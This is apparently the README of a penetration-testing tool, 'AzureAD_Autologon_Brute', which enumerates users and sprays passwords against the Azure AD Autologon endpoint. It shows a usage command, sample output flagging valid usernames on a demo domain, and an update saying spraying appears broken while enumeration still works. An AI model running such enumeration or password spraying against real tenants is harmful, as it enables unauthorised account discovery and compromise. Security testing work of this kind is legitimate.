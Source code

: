 # AzureAD_Autologon_Brute
Brute force attack tool for Azure AD Autologon 

https://arstechnica.com/information-technology/2021/09/new-azure-active-directory-password-brute-forcing-flaw-has-no-fix/


## Update - 2024.02.21 ##
I think this is borked. The AADSTS81016 that people were reporting now seems to indicate a valid account. I think finding valid passwords might be broken altogether. I'll investigate more as time permits. 


**JUST BE AWARE THAT PASSWORD SPRAYS ARE FUBAR ATM.**
User enum still works.




```
Usage:
python3 azuread_autologon_brute.py -d intranet.directory -U users.txt -p Password1
```


```
[~/AzureAD_Autologon_Brute] # python3 azuread_autologon_brute.py -d intranet.directory -U users.txt -p Password1
Domain is  intranet.directory
Setting password as: Password1
Reading users from file: users.txt

+-----------------------------------------+
|          AzureAD AutoLogon Brute          |
|     2021.09.30 @nyxgeek - TrustedSec      |
+-----------------------------------------+

[-] Username not found:wumpus@intranet.directory:Password1
[+] VALID USERNAME, invalid password :stephen.falken@intranet.directory:Password1
[-] Username not found:grand.poobah@intranet.directory:Password1
[-] Username not found:thewiz@intranet.directory:Password1
[-] Username not found:bingobongo@intranet.directory:Password1
[-] Username not found:administrator@intranet.directory:Password1
[+] VALID USERNAME, invalid password :david.lightman@intranet.directory:Password1
[-] Username not found:fakeuser123@intranet.directory:Password1
[+] VALID USERNAME, invalid password :nyxgeek@intranet.directory:Password1
[-] Username not found:jabberwocky@intranet.directory:Password1

```
